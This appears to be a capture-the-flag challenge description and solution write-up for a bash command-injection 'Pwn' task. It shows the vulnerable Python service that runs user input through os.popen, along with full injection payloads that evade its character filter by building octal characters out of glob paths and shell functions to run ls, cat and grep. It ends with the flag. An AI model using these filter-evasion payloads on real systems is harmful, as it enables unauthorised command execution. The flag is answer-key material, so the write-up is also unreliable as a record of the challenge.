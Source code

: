 # Bashing your spirit foods
Testing on bash injection knowledge

<i>Creator - @Platy</i>

## Category
Pwn

## Question
>You are not yourself when you are hungry. Have a CTF challenge and stop <i>bashing</i> people up.
>
>Connect via `nc <ip address> 17450`

### Hint
`I hate needles`

## Setup Guide
Do `bash build.sh`

## Distribution
None.

## Solution
This challenge tests on bash injection.
```
Foods available
[n]achos
[f]ishies
> 
```
If we try to enter any other letters besides `n` or `f`, we will get:
```
Sorry, but we do not serve these here. Maybe next time!
```
When we try to get `n` for nachos, we get this:
```
  _   _            _               
 | \ | |          | |              
 |  \| | __ _  ___| |__   ___  ___ 
 | . ` |/ _` |/ __| '_ \ / _ \/ __|
 | |\  | (_| | (__| | | | (_) \__ \
 |_| \_|\__,_|\___|_| |_|\___/|___/

Hope you enjoy!
sh: 1: n: not found
```
Same goes when we type `f` except we get 'Fishies' instead of 'Nachos'.

We get `sh: 1 n: not found`. It runs a shell with the input as the command. For example, if we entered `cat /etc/passwd`, the output will be printed back. However, we cannot use such a enter that because it contains other letters besides `n` or `f`. When we try `nnnnnn`, it shows `sh: 1: nnnnnn: not found`.

First, we should try using cat to view the contents of all the files. But how can we send cat using only `n` or `f`? It turns out after trying many different characters, it accepts special characters `!@#$%^*()[]{};',.` etc.

So we can use special characters and the letters `n` and `f`. Now we're getting somewhere. Unix has autocompletion functions. Typing out `cat *` well expand to `cat <filename>`. The asterisk represents any number of characters. The question marks represents only one character.

So by inputting `/??n/??? ./*`, we manage to view all the files in the current directory. This reveals the python script and shows what it is actually doing

```python
def getFlag():
	input = raw_input('''Foods available
[n]achos
[f]ishies
> ''')
	if (re.findall('[0-9a-eg-mo-zA-Z]',input) == []):
		if input == 'n':
			nachos()
		elif input == 'f':
			fish()
		print 'Hope you enjoy!'
		print os.popen(input).read()
	else:
		print 'Sorry, but we do not serve these here. Maybe next time!'
```

We can now see that it filters out `[0-9a-eg-mo-zA-Z]`.

By using autocompletition again, we can use `printf` to output the necessary characters to the file.

Locate `printf` by using `/*/??n/???n?f`

Functions can be created in bash `functionName(){ function; }`. By using this method we can create a print function `n(){ /*/??n/???n?f ${@}; };` where `${@}` represents the parameters passed to the print function

We can use octal to print out characters. All we need now is to be able to print numbers without actually printing numbers.

`${#}` counts the number of arguments specified to the print function. Using the previously declared function `n`, we can use it to create a new function `f(){ n ${#}; };`

Now we can specify any number we want and by extension, whatever string we want. This prints out 'a' because the octal for 'a' is '141'. Therefore, there are 3 function `f` with 1, 4 and 1 as arguments respectively:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };n $(n \\\\`f "" ; f "" "" "" "" ; f "" ; `;)
```

We can add another `$()` that acts like an 'eval' function which allows us to run whatever command we like. You can run any command with nothing more than 'n', 'f' and a bunch of special characters!

For example, `ls` becomes this:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;))
```

There is a generator `solution.py` in the solution folder to generate the commands.

Basically, we have shell access with a very troublesome way to run commands.

We can now use `ls -la` to find if there are any interesting files. Remember to separate the 2 commands and pipe it in manually. Also, do not redefine the functions again.

We find a file called `f14g` which when cat, does not show us a flag, but a clue to where the next flag is. Do `ls -l -d -1 /*/* | grep flag` to find if there are any interesting files. Remember to separate the 2 commands and pipe it in manually. Also, do not redefine the functions again.

```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" "" ; f "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;)) | $(n $(n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;))
```

We can see this file called `/bin/thisisareallylongflagbutifyoucansomehowcatthisitwouldbeamazing` by doing `cat /bin/*flag*`

```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" ; f "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" "" "" "" ; f ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" ; `;n \\\\`f "" ; f "" "" "" "" ; f "" "" "" "" "" "" "" ; `;n \\\\`f "" "" "" "" "" ; f "" "" ; `;))
```

Cat the file and you can see assembler code

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x00000000000006b0 <+0>:	push   rbp
   0x00000000000006b1 <+1>:	mov    rbp,rsp
   0x00000000000006b4 <+4>:	push   0x7d
   0x00000000000006b6 <+6>:	push   0x68
   0x00000000000006b8 <+8>:	push   0x37
   0x00000000000006ba <+10>:	push   0x6c
   0x00000000000006bc <+12>:	push   0x34
   0x00000000000006be <+14>:	push   0x33
   0x00000000000006c0 <+16>:	push   0x68
   0x00000000000006c2 <+18>:	push   0x5f
   0x00000000000006c4 <+20>:	push   0x72
   0x00000000000006c6 <+22>:	push   0x30
   0x00000000000006c8 <+24>:	push   0x66
   0x00000000000006ca <+26>:	push   0x5f
   0x00000000000006cc <+28>:	push   0x64
   0x00000000000006ce <+30>:	push   0x34
   0x00000000000006d0 <+32>:	push   0x62
   0x00000000000006d2 <+34>:	push   0x5f
   0x00000000000006d4 <+36>:	push   0x35
   0x00000000000006d6 <+38>:	push   0x31
   0x00000000000006d8 <+40>:	push   0x5f
   0x00000000000006da <+42>:	push   0x36
   0x00000000000006dc <+44>:	push   0x6e
   0x00000000000006de <+46>:	push   0x31
   0x00000000000006e0 <+48>:	push   0x68
   0x00000000000006e2 <+50>:	push   0x35
   0x00000000000006e4 <+52>:	push   0x34
   0x00000000000006e6 <+54>:	push   0x62
   0x00000000000006e8 <+56>:	mov    r9d,0x7b
   0x00000000000006ee <+62>:	mov    r8d,0x46
   0x00000000000006f4 <+68>:	mov    ecx,0x54
   0x00000000000006f9 <+73>:	mov    edx,0x43
   0x00000000000006fe <+78>:	mov    esi,0x47
   0x0000000000000703 <+83>:	lea    rdi,[rip+0xae]        # 0x7b8
   0x000000000000070a <+90>:	mov    eax,0x0
   0x000000000000070f <+95>:	call   0x560 <printf@plt>
   0x0000000000000714 <+100>:	add    rsp,0xd0
   0x000000000000071b <+107>:	mov    eax,0x0
   0x0000000000000720 <+112>:	leave
   0x0000000000000721 <+113>:	ret
End of assembler dump.
```

As we can see, a lot of values are being pushed into the stack. And at the end, it calls the `printf` function.

We can store all the items in the stack and decode it into ascii using a small python script

```python
values = [0x47,0x43,0x54,0x46,0x7b,0x62,0x34,0x35,0x68,0x31,0x6e,0x36,0x5f,0x62,0x34,0x64,0x5f,0x66,0x30,0x72,0x5f,0x68,0x33,0x34,0x6c,0x37,0x68,0x7d]
for i in values:
	print(chr(i),end='')
print()
```

### Flag
`GCTF{b45h1n6_15_b4d_f0r_h34l7h}`

## Distribution
No files to be distributed

## Credits
33c3 ctf - 2016

Misc.

hohoho - 350pts

## Recommended Reads
None.